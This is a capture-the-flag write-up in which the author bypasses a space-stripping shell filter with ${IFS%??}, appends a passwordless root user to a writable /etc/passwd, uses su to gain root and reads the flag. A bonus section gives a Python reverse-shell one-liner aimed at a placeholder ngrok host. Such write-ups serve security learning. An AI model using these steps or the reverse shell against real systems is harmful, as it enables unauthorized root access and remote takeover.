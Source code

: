 
# The Spaces Between Us

It seems like our commands are getting spaces stripped out. This can be fixed by using `${IFS%??}` instead of spaces:
```
←[32m←[1muser@challenge←[39m←[22m:←[36m←[1m~←[39m←[22m$ ls${IFS%??}-alh
total 28K
dr-xr-xr-x 1 user user 4.0K Dec 11 19:23 .
drwxr-xr-x 1 root root 4.0K Dec 11 19:23 ..
-rw-r--r-- 1 user user  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 user user 3.5K Mar 27  2022 .bashrc
-rw-r--r-- 1 user user  807 Mar 27  2022 .profile
-r-xr-xr-x 1 root root 1.9K Dec 11 19:22 .server.py
-rw-r--r-- 1 root root  174 Dec 11 19:22 README.md

←[32m←[1muser@challenge←[39m←[22m:←[36m←[1m~←[39m←[22m$ cat${IFS%??}README.md
Your objective to escalate your privileges
and retrieve the flag in /root/flag.txt.

If you look around the filesystem, you may
find some odd permissions you can leverage :)
```

`.server.py` looks interesting, but the README has a pretty clear hint to look for "odd" permissions. Lets use `find` to do that using `find / -writable` (also passed in grep/head for brevity):
```
←[32m←[1muser@challenge←[39m←[22m:←[36m←[1m~←[39m←[22m$ find${IFS%??}/${IFS%??}-writable${IFS%??}|${IFS%??}grep${IFS%??}-Ev${IFS%??}proc${IFS%??}|head${IFS%??}-n${IFS%??}10
find: ΓÇÿ/proc/tty/driverΓÇÖ: Permission denied
find: ΓÇÿ/etc/ssl/privateΓÇÖ: Permission denied
find: ΓÇÿ/rootΓÇÖ: Permission denied
find: ΓÇÿ/var/cache/ldconfigΓÇÖ: Permission denied
find: ΓÇÿ/var/cache/apt/archives/partialΓÇÖ: Permission denied
find: ΓÇÿ/var/lib/apt/lists/partialΓÇÖ: Permission denied
/etc/passwd
/tmp
/dev/core
```

`/etc/passwd` huh? That's fun. Lets abuse that:

Create a new user without a password, set uid/gid to 0, add to root user group:
```
←[32m←[1muser@challenge←[39m←[22m:←[36m←[1m~←[39m←[22m$ echo${IFS%??}"user2::0:0:root:/root:/bin/bash"${IFS%??}>>${IFS%??}/etc/passwd
/bin/sh: 1: cannot create  /etc/passwd: Directory nonexistent
```
It's not letting me edit it directly, so used this trick instead -- copy to /tmp, edit there, cat back over:
```
←[32m←[1muser@challenge←[39m←[22m:←[36m←[1m~←[39m←[22m$ cp${IFS%??}/etc/passwd${IFS%??}/tmp/
echo${IFS%??}"user2::0:0:root:/root:/bin/bash"${IFS%??}>>${IFS%??}/tmp/passwd
cat${IFS%??}/tmp/passwd${IFS%??}>/etc/passwd
```

Validate our new user is correctly in place without password:
```
←[32m←[1muser@challenge←[39m←[22m:←[36m←[1m~←[39m←[22m$ cat${IFS%??}/etc/passwd
root:x:0:0:root:/root:/bin/bash
<SNIP>
user2::0:0:root:/root:/bin/bash
```

Use typical `su - user2` to leverage new user, doesn't seem to work -- however `su -c` works:
```
←[32m←[1muser@challenge←[39m←[22m:←[36m←[1m~←[39m←[22m$ su${IFS%??}-${IFS%??}user2

←[32m←[1muser@challenge←[39m←[22m:←[36m←[1m~←[39m←[22m$

←[32m←[1muser@challenge←[39m←[22m:←[36m←[1m~←[39m←[22m$ su${IFS%??}-c${IFS%??}'id'${IFS%??}user2
uid=0(root) gid=0(root) groups=0(root)
```

Now that we can use it, lets grab flag from `/root`:
```
←[32m←[1muser@challenge←[39m←[22m:←[36m←[1m~←[39m←[22m$ su${IFS%??}-c${IFS%??}'ls${IFS%??}-alh${IFS%??}/root${IFS%??}&&${IFS%??}cat${IFS%??}/root/*flag*'${IFS%??}user2
total 28K
drwx------ 1 root root 4.0K Dec 11 19:23 .
drwxr-xr-x 1 root root 4.0K Dec 17 21:44 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x 3 root root 4.0K Dec 11 19:23 .cache
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
-rw------- 1 root root    0 Dec  8 00:01 .python_history
-rw-r--r-- 1 root root  254 Dec  8 00:08 .wget-hsts
---------- 1 root root   39 Dec 11 19:22 flag.txt
flag{59af40c07bc6f02b457aa4c15543da2d}
```

## Bonus
To make life easier, you can also use ngrok/netcat to create a reverse shell, this way no need to deal with annoying spaces, etc. The container has python, so you can use something like this:
`python -c 'socket=import("socket");subprocess=import("subprocess");os=import("os");pty=import("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("NGROK-HOST",NGROK-PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`

Reference: https://systemweakness.com/how-to-catch-a-reverse-shell-over-the-internet-66d1be5f7bb9, https://cheatsheet.haax.fr/shells-methods/reverse/

